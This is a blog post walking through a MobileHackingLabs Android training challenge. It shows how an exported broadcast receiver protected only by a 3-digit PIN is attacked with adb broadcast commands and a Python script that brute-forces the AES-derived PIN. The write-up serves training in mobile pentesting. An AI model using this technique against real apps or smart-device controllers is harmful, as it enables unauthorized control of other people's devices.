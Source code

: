 ```yaml
---
layout: post
title: "Exploiting Broadcast Receiver-MobileHackingLabs"
categories: Android
excerpt_separator: <!--more-->
---
```


![cover pic](/images/blog8/1.jpg)

Hello Guys...

In this blog, I will walk you through a challenge that I come across. It is all about exploiting a Broadcast receiver vulnerability. The challenge is from a platform called [MobileHackingLabs](https://www.mobilehackinglab.com). It's a really good platform for testing your mobile pentesting skills. So let's get started.

<!--more-->

#### Broadcast Receiver
A Broadcast receiver allows applications to send and receive broadcast messages from other applications and system-wide events. A few events include incoming calls, low battery, system boots up, etc. It is one of the core components of Android. When a broadcast is sent, the system automatically routes broadcasts to apps that have subscribed to receive that particular type of broadcast.<br>
If you want more information about broadcast receivers, [click here](https://developer.android.com/develop/background-work/background-tasks/broadcasts).

Challenge Link: <https://www.mobilehackinglab.com/course/lab-iot-connect>

I have downloaded the APK on my Kali machine and installed it on my Genymotion emulator using the `adb install` command. 

<img src="/images/blog8/2.png" alt="screenshot" width="300"/>

When opening the application, we have two options: **Login** or **Sign Up**. Click on Signup and create a new user. Login with the new user, and you can see two buttons, **Setup** and **Master Switch**.<be>
Clicking on the Setup button, you can see a few devices that we can turn on or off. However, some devices like A/C and Speaker cannot be turned on since we logged in as a guest user.

<img src="/images/blog8/3.png" alt="screenshot" width="300"/>

When you click on **Master Switch**, it is protected by a 3-digit PIN. This button will start all devices with one click, but it can only be accessed through a privileged account.

<img src="/images/blog8/4.png" alt="screenshot" width="300"/>

### Analyzing Code

Open the APK in jadx and navigate to the AndroidManifest file. Search for **receiver**, and you will find a broadcast receiver named **MasterReceiver**, which is exported to true without permission restrictions, making it vulnerable to unauthorized access.

![screen shot](/images/blog8/5.png)

Further analysis revealed the presence of a class called **CommunicationManager** when searching for **MasterReceiver** within the Text Search feature of JADX.

![screen shot](/images/blog8/6.png)

Inside the onReceive method, the code checks if the intent's action is equal to the string **MASTER_ON**. If it is, the code extracts an integer extra from the intent with the key **key**. If the context2 parameter is not null and the **check_key** method from the **Checker** class returns true for the extracted integer, the code calls the **turnOnAllDevices** method on the CommunicationManager. It also displays a toast message saying **All devices are turned on**. If the check_key method returns false, the code displays a toast message saying **Wrong PIN!!** instead.

#### Checker class

![screen shot](/images/blog8/7.png)

Let's Break it down.

{% highlight kotlin %}
private static final String algorithm = "AES";
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";
{% endhighlight %}
- String **algorithm**: represents the encryption algorithm used, which is "AES"
- String **ds**: represents the encrypted data, which is a Base64-encoded string.

{% highlight kotlin %}
public final boolean check_key(int key) {
    try {
          return Intrinsics.areEqual(decrypt(ds, key), "master_on");
    } catch (BadPaddingException e) {
           return false;
    }
}
{% endhighlight %}
The check_key method takes an integer key as input and returns a boolean indicating whether the key is valid. It calls the **decrypt** method, passing the ds string and the key as arguments, and if the decryption is successful it returns **true**, and if it fails it returns **false**.

{% highlight kotlin %}
public final String decrypt(String ds2, int key) {
  Intrinsics.checkNotNullParameter(ds2, "ds");
  SecretKeySpec secretKey = generateKey(key);
  Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
  cipher.init(2, secretKey);
  if (Build.VERSION.SDK_INT >= 26) {
        byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
        Intrinsics.checkNotNull(decryptedBytes);
        return new String(decryptedBytes, Charsets.UTF_8);
  }
    throw new UnsupportedOperationException("VERSION.SDK_INT < O");
}
{% endhighlight %}
This method takes two arguments: **ds2** (the encrypted data), and key. It decrypts the ds2 string using the key and returns the decrypted string. It checks if the ds2 parameter is not null, it will generate a **secretkeyspec** object from the key using the **generatekey** method. Then it creates another object called **cipher** with the specified algorithm ("AES/ECB/PKCS5Padding"). There is one more condition If the Android API level is 26 or higher, it decrypts the ds2 string using the Cipher object and returns the decrypted string as a UTF-8 encoded string, if not it throws an **UnsupportedOperationException**.

### Exploit

As the Receiver is exported to true, potential exploitation can be performed by crafting and sending an intent using **adb** with necessary action and extras. <br>
Open the terminal and enter the following command:

{% highlight bash %}
adb shell am broadcast -a MASTER_ON --ei key 123
{% endhighlight %}

![screen shot](/images/blog8/8.png)

Upon submitting an incorrect pin, a **Wrong Pin** response is returned. If we obtain the correct PIN, we can use the Master Switch to turn on all devices without needing the Master account. Below is a Python script created using ChatGPT to brute force a 3-digit pin.

{% highlight python %}
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from base64 import b64decode

# Encoded string and target value
encoded_ds = "OSnaALIWUkpOziVAMycaZQ=="
target_string = "master_on"

# Iterate through all possible keys
for key_int in range(1, 1000001):
    try:
        # Decrypt the encoded string with the current key
        decoded_ds = b64decode(encoded_ds)
        key_bytes = str(key_int).encode("utf-8").ljust(16, b'\0')[:16]
        cipher = AES.new(key_bytes, AES.MODE_ECB)
        decrypted = unpad(cipher.decrypt(decoded_ds), AES.block_size).decode("utf-8")

        # Check if the decrypted value matches the target
        if decrypted == target_string:
            print(f"Found key: {key_int}")
            break
    except Exception as e:
        continue
else:
    print("Key not found within limit.")
{% endhighlight %}

Copy the code to your local machine and run the script.

![screen shot](/images/blog8/9.png)

Next, open the terminal and enter the adb command we used earlier, this time with the **Correct PIN** that we just brute-forced. <br>
{% highlight bash %}
adb shell am broadcast -a MASTER_ON –ei key 345
{% endhighlight %}

![screen shot](/images/blog8/10.png)

You should see a message saying **ALL Devices are Turned on**. Now click on the Setup button and observe that all devices are turned on.

![screen shot](/images/blog8/11.png)

***Happy Pentesting..!***

